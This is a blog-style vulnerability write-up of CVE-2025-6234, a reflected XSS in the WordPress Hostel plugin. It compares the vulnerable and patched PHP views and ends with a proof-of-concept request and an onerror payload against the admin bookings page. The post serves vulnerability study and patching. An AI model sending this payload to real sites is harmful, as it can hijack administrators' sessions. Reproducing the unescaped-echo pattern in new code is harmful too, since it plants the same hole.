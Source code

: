 # CVE-2025-6234 Analysis & POC


<!--more-->

The vulnerability exists in the **Hostel** plugin for WordPress prior to version **1.1.5.8**. An attacker could exploit it to target high-privilege users like **admins**.

* **CVE ID**: [CVE-2025-6234](https://www.cve.org/CVERecord?id=CVE-2025-6234)
* **Product**: [WordPress Hostel Plugin](https://wordpress.org/plugins/hostel/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: < 1.1.5.8
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Hostel Plugin**: v1.1.5.7 (vulnerable) and v1.1.5.8 (patched)
* **Diff tool**: meld or any tool that can compare two versions

## Analysis

The root cause is the lack of **sanitization** and **escaping** for a parameter before rendering it on the page, leading to a **Reflected Cross-Site Scripting (XSS)** vulnerability.

### Patch Diff

Use any diff tool to compare the vulnerable version and the patch.
The differences are clearly in two files: **views/bookings.html.php** and **controllers/bookings.php**

**File views/bookings.html.php**

```php
<p align="center">
    <?php if($offset > 0):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset - $page_limit?>&ob=<?php echo @$_GET['ob']?>"><?php _e('[previous page]', 'wphostel')?></a>
    <?php endif;?> 
    <?php if($count > ($page_limit + $offset)):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset + $page_limit?>&ob=<?php echo @$_GET['ob']?>"><?php _e('[next page]', 'wphostel')?></a>
    <?php endif;?>	
</p>
```

The parameter `ob` is directly taken from `$_GET['ob']` and echoed into an HTML attribute **without escaping**, making it vulnerable to **Reflected XSS**, since an attacker can inject payloads into the query string.

**Patched Code**

```php
<p align="center">
    <?php if($offset > 0):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset - $page_limit?>&ob=<?php echo esc_attr($_GET['ob'] ?? '')?>"><?php _e('[previous page]', 'wphostel')?></a>
    <?php endif;?> 
    <?php if($count > ($page_limit + $offset)):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset + $page_limit?>&ob=<?php echo esc_attr($_GET['ob'] ?? '')?>"><?php _e('[next page]', 'wphostel')?></a>
    <?php endif;?>	
</p>
```

The patch uses `esc_attr()` to safely encode `$_GET['ob']` before echoing into the HTML attribute.

![diff](diff_code.png "Diff showing patched and vulnerable code")

* Source: `$_GET['ob']` is **client-controlled input** from the URL query string.
* Sink: echoed in an **HTML attribute** `ob=<?php echo @$_GET['ob']?>`.

👉 Because the source does not go through controller logic, the diff of **controllers/bookings.php** is less relevant.

### How it works

For `$_GET['ob']` to be echoed in the HTML attribute of `<a>`, the `if` condition enclosing `<a>` must be true:

```php
<?php if($offset > 0):?>
// ob=<?php echo @$_GET['ob']?>
<?php endif;?> 
<?php if($count > ($page_limit + $offset)):?>
// ob=<?php echo @$_GET['ob']?>
<?php endif;?>	
```

👉 The key condition is `if($offset > 0)`. If true, the XSS can occur regardless of the second condition.

The **views/bookings.html.php** file cannot be accessed directly; it must be included by the **controller** using `include()`.

The `$offset` variable is initialized in the controller and passed to the view.

Searching the plugin controllers shows that `$offset` is set in the `default` branch (**listing bookings**) of the static `manage()` method in class `WPHostelBookings` in **controllers/bookings.php**.

**Controller Code**

```php
class WPHostelBookings {
    static function manage() {
        global $wpdb;
        $_booking = new WPHostelBooking();

        switch(@$_GET['do']) {
            // other logic
            
            // list bookings
            default:
                $type = empty($_GET['type']) ? 'upcoming' : sanitize_text_field($_GET['type']);
                $offset = empty($_GET['offset']) ? 0 : intval($_GET['offset']);
                $dir = empty($_GET['dir']) ? 'ASC' : $_GET['dir'];
                if($dir != 'ASC' and $dir != 'DESC') $dir = 'ASC';
                $odir = ($dir == 'ASC') ? 'DESC' : 'ASC';
                
                $page_limit = 20;
                $limit_sql = empty($_GET['export']) ? $wpdb->prepare("LIMIT %d, %d", $offset, $page_limit) : ''; 
                
                $bookings = $wpdb->get_results("SELECT SQL_CALC_FOUND_ROWS tB.*, tR.title as room 
                    FROM ".WPHOSTEL_BOOKINGS." tB JOIN ".WPHOSTEL_ROOMS." tR ON tR.id = tB.room_id
                    WHERE is_static=0 $where_sql $orderby $limit_sql");
                $count = $wpdb->get_var("SELECT FOUND_ROWS()");	
                
                if(@file_exists(get_stylesheet_directory().'/wphostel/bookings.html.php')) include get_stylesheet_directory().'/wphostel/bookings.html.php';
                else include(WPHOSTEL_PATH."/views/bookings.html.php");				  
            break;
        }
    }
}
```

**Analysis of `$offset`**

* `$offset` comes from the URL parameter `$_GET['offset']`:

  * Absent → defaults to 0
  * Present → cast to integer via `intval()`

```php
$offset = empty($_GET['offset']) ? 0 : intval($_GET['offset']);
```

**Analysis of `$page_limit`**

* `$page_limit` is fixed at `20` for pagination

```php
$page_limit = 20;
$limit_sql = empty($_GET['export']) ? $wpdb->prepare("LIMIT %d, %d", $offset, $page_limit) : ''; 
```

This ensures SQL returns up to **20 records** starting from `$offset`.

**XSS condition in view**:

* The payload displays only if `if($offset > 0)` → requires at least **1 offset**
* Exploit requires at least **2 bookings** in the database to render payload

The controller passes results to the view using:

```php
if(@file_exists(get_stylesheet_directory().'/wphostel/bookings.html.php')) include get_stylesheet_directory().'/wphostel/bookings.html.php';
else include(WPHOSTEL_PATH."/views/bookings.html.php");	
```

`WPHOSTEL_PATH` is the absolute path to the plugin directory.

![search path](search_path.png "Absolute path to the plugin directory")

## Exploit

**Request with XSS payload**

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&offset=1&ob="><img+src%3D1+onerror%3Dalert%28document.domain%29> HTTP/1.1
```

**Payload**

```html
"><img src=x onerror=alert(document.domain)>
```

* Closes `<a>` tag with `">`
* Adds `<img>` tag with `onerror` to trigger JavaScript
* Uses `alert(document.domain)` to clearly demonstrate DOM access

**Result**

![xss success](xss_success.png "Reflected XSS triggered successfully")

## Conclusion

The **CVE-2025-6234** vulnerability in the **WordPress Hostel** plugin stems from improper handling of input `($_GET['ob'])` before rendering. This allows an attacker to inject **Reflected XSS**.

The patch fixes it by using `esc_attr()` to escape the input, ensuring untrusted values cannot inject malicious scripts.

**Key takeaways**:

* Always **sanitize** input and **escape** output according to context.
* In WordPress, leverage built-in functions like `sanitize_text_field()`, `esc_attr()`, `esc_html()`, `wp_kses()` to mitigate security risks.

## References

[XSS Cross-site scripting (XSS) cheat sheet - PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Hostel Plugin < 1.1.5.8 is vulnerable to Cross Site Scripting (XSS) - patchstack](https://patchstack.com/database/wordpress/plugin/hostel/vulnerability/wordpress-hostel-plugin-1-1-5-8-reflected-xss-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-02-cve-2025-6234/  

